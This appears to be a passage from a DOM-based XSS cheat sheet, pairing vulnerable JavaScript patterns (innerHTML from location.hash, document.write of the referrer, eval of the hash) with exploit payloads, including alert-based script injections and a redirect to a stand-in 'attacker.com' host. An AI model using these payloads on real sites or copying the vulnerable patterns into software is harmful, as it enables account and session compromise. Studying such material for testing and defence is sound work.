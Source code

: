 ### Common Sources

#### 1. URL Parameters
```javascript
// Vulnerable code
document.getElementById('content').innerHTML = location.hash.substring(1);

// Exploit
#<script>alert('XSS')</script>
#<img src=x onerror=alert('XSS')>
```

#### 2. Document Referrer
```javascript
// Vulnerable code
document.write(document.referrer);

// Exploit
Referer: <script>alert('XSS')</script>
```

#### 3. Window Name
```javascript
// Vulnerable code
document.getElementById('content').innerHTML = window.name;

// Exploit
window.name = '<script>alert("XSS")</script>';
```

### Advanced DOM XSS

#### 1. Hash-based
```javascript
// Vulnerable code
eval(location.hash.substring(1));

// Exploit
#alert('XSS')
#document.location='http://attacker.com'
```

#### 2. Search-based
```javascript
// Vulnerable code
document.getElementById('search-results').innerHTML = 
    'Search results for: ' + location.search.substring(1);

// Exploit
?<script>alert('XSS')</script>
```

## WAF Bypass Payloads {#waf-bypass}
